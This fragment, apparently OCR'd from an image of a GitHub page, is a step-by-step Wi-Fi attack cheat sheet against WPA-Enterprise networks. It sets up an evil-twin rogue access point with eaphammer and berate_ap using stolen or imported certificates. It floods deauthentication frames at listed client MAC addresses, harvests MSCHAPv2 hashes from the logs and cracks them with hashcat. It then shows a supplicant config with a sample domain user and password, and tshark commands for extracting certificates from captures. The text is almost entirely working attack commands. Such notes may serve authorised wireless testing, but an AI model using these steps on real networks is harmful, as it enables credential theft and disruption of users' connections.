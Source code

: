 ```
```
Create a RogueAP with the same ESSID and configuration **with CA certificate**
```
cd /root/tools/eaphammer
python3 ./eaphammer --cert-wizard import --server-cert /home/user/Downloads/server.crt --ca-cert /home/user/Downloads/ca.crt --private-key /home/user/Downloads/server.key --private-key-passwd whatever
```
Raise the rogue AP 
```
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
```
Deauth clients (if the AP has many BSSID, disconnect for each AP in parallel)
```
sudo aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:BA:6C:41
sudo aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:07:6C:40
sudo aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan0mon -c 64:32:A8:BA:6C:41
sudo aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan0mon -c 64:32:A8:07:6C:40
```
Once connected we get your MSCHAPv2 credentials so we need to crack the hash to get the password in clear text. 
```
sudo cat eaphammer/logs/hostapd-eaphammer.log | grep hashcat | awk '{print $3}' >> /tmp/hashcat.5500
hashcat -a 0 -m 5500 /tmp/hashcat.5500 rockyou-top100000.txt --force
```
The rogue AP with CA certificate can also be done using `berate_ap`
```
openssl x509 -in ca.crt -out hostapd.ca.pem -outform PEM
openssl x509 -in server.crt -out hostapd.cert.pem -outform PEM
openssl rsa -in server.key -out hostapd.key.pem
openssl dhparam -out hostapd.dh.pem 2048


./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan4 lo wifi-corp --eap-cert-path /home/user/Downloads/
```

#### Connect to EAP - PEAP (WPA Enterprise)
eap-peap.conf
```
network={
    ssid="wifi-corp"
    key_mgmt=WPA-EAP
    eap=PEAP
    identity="CONTOSO\juan.tr" # tshark -r wifi/mgt-01.cap -Y "wlan.bssid == f0:9f:c2:71:22:1a && eap.identity" -T fields -e eap.identity -V | sort -u
    password="bulldogs1234"

    # PMF (Management Frame Protection / 802.11w)
    ieee80211w=1       # 2 = required, 1 = optional, 0 = disabled
}
```
The certs can be found in the pcap. Here is how to convert
```
tshark -r wifi/mgt-01.cap -Y "wlan.bssid == f0:9f:c2:71:22:15 && tls.handshake.certificate" -T fields -e tls.handshake.certificate -V | head -1  | xxd -r -p > /tmp/cer.der
openssl x509 -inform der -in /tmp/cer.der -outform pem -out /tmp/cer.pem
```
